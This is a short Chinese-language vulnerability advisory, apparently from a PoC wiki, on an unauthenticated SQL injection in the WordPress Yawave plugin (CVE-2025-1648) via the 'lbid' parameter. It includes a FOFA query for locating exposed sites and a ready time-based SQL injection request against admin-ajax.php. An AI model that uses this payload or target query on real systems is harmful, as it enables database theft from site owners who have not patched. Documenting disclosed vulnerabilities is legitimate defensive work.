

# WordPress Yawave插件 SQL注入漏洞(CVE-2025-1648)

# 漏洞描述

由于 WordPress的 Yawave 插件对用户提供的参数的转义不足以及对现有 SQL 查询的准备不足，因此容易受到通过“lbid”参数进行 SQL 注入的攻击。这使得未经身份验证的攻击者能够将其他 SQL 查询附加到现有查询中，这些查询可用于从数据库中提取敏感信息。

# 影响版本

Yawave <= 2.9.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/yawave"

POC/EXP：

GET /wp-admin/admin-ajax.php?action=js_liveblog_update&lbid=(SELECT%205845%20FROM%20(SELECT(SLEEP(2)))LzeF) HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1

# 漏洞修复

关注厂商官网动态，及时更新补丁信息。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
